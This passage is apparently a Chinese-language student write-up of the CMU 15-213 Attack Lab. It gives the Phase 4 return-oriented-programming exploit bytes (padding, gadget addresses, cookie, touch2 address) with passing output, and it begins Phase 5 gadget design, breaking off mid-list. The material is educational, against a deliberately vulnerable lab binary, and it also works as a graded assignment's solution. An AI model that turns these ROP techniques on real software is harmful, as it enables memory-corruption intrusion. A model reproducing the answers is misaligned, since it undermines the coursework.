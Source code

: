 ```
ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff ff ff 
/* 以上40字节 */
ab 19 40 00 00 00 00 00 /* gadget address 1 */
fa 97 b9 59 00 00 00 00 /* cookie: 59b997fa */
a2 19 40 00 00 00 00 00 /* gadget address 2 */
ec 17 40 00 00 00 00 00 /* touch2 address */
```
成功了!
```shell
$ ./rtarget -qi Phase4-raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
执行返回地址的时候栈顶指针已经在这块8字节地址内存的上方了.
遇到`ret`指令时,实质是将此时的栈顶指针上方当作返回地址取出并跳转.


## Phase 5
根据Handout的提示,可能需要用到8个gadget
注意到
```
	0x0000000000401a03 <addval_190+0>:   8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
# 48 89 e0 c3:  movq     %rsp,%rax;ret
	0x00000000004019a0 <addval_273+0>:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
# 48 89 c7 c3 :     movq    %rax,%rdi;ret
```
如何在栈空间中连续存放字符串呢?我注意到farm.c文件中有一个 `add_xy`函数:
```C
long add_xy(long x, long y)  
{  
    return x+y;  
}
```
利用这个函数来计算字符串存放的位置相对于%rsp的偏移量
设计gadget:
```
gadget 1:    # 0x401a06
	movq    %rsp,%rax
	ret

gadget 2:    # 0x4019a2
	movq    %rax,%rdi
	ret
# 以上,将%rsp处的值复制给了%rdi

gadget 3:    # 0x4019ab
	pop    %rax
	ret

gadget 4:    # 0x4019dd
	movl    %eax,%edx
	ret

gadget 5:    # 0x401a34
	cmpb    %cl,cl
```